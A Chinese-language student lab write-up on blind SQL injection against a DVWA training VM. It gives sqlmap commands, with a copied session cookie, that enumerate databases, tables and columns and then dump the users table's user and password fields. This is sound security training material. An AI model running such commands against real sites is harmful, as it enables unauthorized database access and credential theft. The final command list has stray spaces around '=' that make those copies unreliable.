








# 网络安全实训 6——SQL 注入

## 安装环境

知新平台的文档图片无法加载

查看源码发现是外部引用，尝试恢复

恢复成功

## 开启 OWASP 靶机和 Kali 虚拟机

登录 dvwa

安全等级调 low

进入 SQL Injection（Blind）页面

### 随意输入一个数字，然后点击提交

### 安装 SQLmap

我用的是裸机当攻击机，所以安装个 SQLmap

### 用 F12 打开开发者工具

### 选中 Storage（存储）选项卡，找到 cookies，复制其中 PHPSESSID 的值（获取 cookies）

得到 `59mb9spqvkd9cuk543thagtsd5`

### 由于浏览器提交方式为 get 型，sqlmap 采用-u 命令。将刚才复制的 URL 和 COOKIE 写入命令

出错了，查看 Github 的 README 发现是需要前面加 `python` 运行

找到注入点

### 为了查看有哪些数据库，输入命令：

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --dbs`

### 为了查看有当前数据库，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --current-db`

### 为了查看数据库中所有的表，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables`

### 为了查看 users 表中有哪些列，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns`

### 爆破表中 user 和 password 这两列

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C"user,password" --dump`

爆破成功

上面有报错，问了下 ChatGPT-4o，也没啥有用的信息

重试了一下正常了

## 过程中的命令

输入命令的时候容易出错的地方主要是：引号必须加，否则命令会被识别为系统&命令，还有英文字符，写成中文字符会报错

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --dbs

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --current-db

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C "user, password" --dump
